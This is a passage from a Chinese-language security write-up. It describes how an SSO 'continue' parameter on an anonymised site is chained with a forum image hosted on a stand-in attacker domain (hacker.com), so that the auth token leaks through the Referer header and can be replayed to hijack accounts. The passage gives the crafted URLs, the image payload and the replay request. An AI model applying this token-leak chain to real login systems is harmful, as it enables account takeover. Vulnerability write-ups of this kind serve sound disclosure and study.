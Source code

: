 于是将`http://www.baidu.com/`编码一下赋值给`location`，访问
```
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://subdomain.AAA.com/SSOServerLogin&isiframe=1&service=service_id&location=687474703a2f2f7777772e62616964752e636f6d&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
```
显示
![图片2.png](C:\Users\todaro\Desktop\kjkk\图片2.png)
还是有校验，而且因为校验失败，还要重新登`https://passport.AAA.com/`最后发现这里的校验和`continue`参数情况一模一样。

到现在这种情况，正面刚域名欺骗已经不可能了。回过头来，我们刚刚测试有发现`continue`的值可以是AAA.com下的任意子域名(还有一些指定的白名单跨域域名)，那么首先能想到的就是如果我们能找到AAA.com下的一个跳转漏洞，那么是不是就可以在跳转后把授权给传送出去呢？

于是找了几个子域名下的跳转：`http://subdomian.AAA.com/topLocation?location=687474703a2f2f7777772e62616964752e636f6d`这个链接访问后会跳转到百度，于是将其值给`continue`，确实是可以跳转，但是跳转后的结果却是
```
http://subdomain.AAA.com/topLocation?auth=xxxxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f
```
浏览器再进而请求`http://subdomain.AAA.com/topLocation?location=687474703a2f2f742e77616e6d65692e636f6d2f`

看到没，授权值是/topLocation?auth=xxxx而不是`http://www.baidu.com/?auth=xxxx`或者是`http://subdomian.AAA.com/topLocation?location=687474703a2f2f7777772e62616964752e636f6d&auth=xxxx`，也就是说服务端只获取了?(问号)前面的值而后面的直接丢弃，导致跳转失效了，自然授权值也就传不出去了。

又重新找了几个通过参数进行跳转的跳转漏洞，结果都是?之后被截断，这条路也就行不通了，除非能找到一个不带?的跳转，这个就比较难了，直接放弃。

再想想还有什么办法获取到这个授权值呢？对了，网站在跨域请求网站内容时会通过referer来标记来源，如果当前发起请求的页面链接中存在授权值，则referer也会记录该值！

上面的跳转漏洞，由于授权值是返回给`http://subdomian.AAA.com/`，完了之后才对外跳转，referer是不含有该授权值的。

陆续又找了几个跳转漏洞，由于包含多重跳转，到最后referer带的都不是我们想要的数据了。

思路又断了，这时候又突然想到，在AAA.com域名下是有很多bbs的二级域名站点的，如果能在bbs站点插入对外的请求，那么是不是有机会把数据传出去呢？

刚好`bbs.subdomain.AAA.com`这个站点允许插入外链图片
![图片3.png](C:\Users\todaro\Desktop\kjkk\图片3.png)
插入的图片html代码如下
```
<img id="aimg_gyvvi" onclick="zoom(this, this.src, 0, 0, 0)" class="zoom" width="440" height="440" src="http://hacker.com/jpg/12345.jpg" border="0" alt="">
```
最后构造链接：
```
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html&isiframe=1&service=service_id&location=687474703a2f2f7777772e62616964752e636f6d&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
```
访问后Referer如下：
```
http://bbs.subdomain.AAA.com/thread-942592-1-1.html?auth=xxxxxx&isiframe=1&location=687474703a2f2f7777772e62616964752e636f6d
```
referer成功附带授权数据。

获取到授权后，只需要在正常的模拟一次授权过程，把接收授权返回值的接口找出来，把通过referer获取到的auth值喂给它，即可登录对应用户的账户：
```
http://subdomain.AAA.com/SSOServerLogin?auth=xxxxxxxx&isiframe=1&location=687474703a2f2f7777772e62616964752e636f6d
```
